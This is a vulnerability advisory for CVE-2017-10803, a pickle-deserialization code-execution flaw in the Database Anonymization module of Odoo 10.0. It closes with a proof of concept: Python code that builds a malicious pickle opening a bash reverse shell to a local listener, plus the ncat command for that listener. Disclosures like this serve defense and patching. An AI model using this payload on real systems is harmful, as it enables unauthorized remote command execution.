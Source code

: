 ## Vulnerability Summary
The following advisory describe arbitrary Python code execution found in Odoo CRM version 10.0

Odoo is a suite of open source business apps that cover all your company needs: CRM, eCommerce, accounting, inventory, point of sale, project management, etc. Odoo’s unique value proposition is to be at the same time very easy to use and fully integrated.

## Credit
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
Odoo has done a private disclosure for the issue we reported, and the patch was merged in all supported branches.
CVE: CVE-2017-10803

The full public disclosure will be available at https://github.com/odoo/odoo/issues/17898.

## Vulnerability Details
One of the core Odoo modules, Database Anonymization, allows an administrator to anonymize the contents of the Odoo database. The module does this by serializing the contents of the existing database using Python’s pickle module into a backup file before modifying the contents of the database. The administrator can then de-anonymize the database by loading the pickled backup file.

Python’s pickle module can be made to execute arbitrary Python code when loading an attacker controlled pickle file. With this, an administrator can execute arbitrary Python code with the same privilege level as the Odoo webapp by anonymizing the database then attempt the de-anonymization process with a crafted pickle file.

## Proof of Concept
In order to exploit the vulnerability, you should navigate to the Apps page (the link is in the navigation bar at the top and search for and install “Database Anonymization” in the search bar. We have to deselect the “Apps” filter in the search bar for it to show up.

Once we have the module installed, we navigate to the settings page and select “Anonymize database” under “Database anonymization” and click on the “Anonymize Database” button. Next, we refresh the page and navigate to the same page under settings. We upload the “exploit.pickle” file generated our script and click on “Reverse the Database Anonymization” button. We should have a reverse shell.

The following Python file generate a malicious pickle file that attempts (via bash) to connect back to a listener on port 8000:

```
import cPickle
import os
import base64
import pickletools

class Exploit(object):
def __reduce__(self):
return (os.system, (("bash -i >& /dev/tcp/127.0.0.1/8000 0>&1"),))

with open("exploit.pickle", "wb") as f:
cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)
```

We then use netcat listener on port 8000:

```
ncat -nlvp 8000
```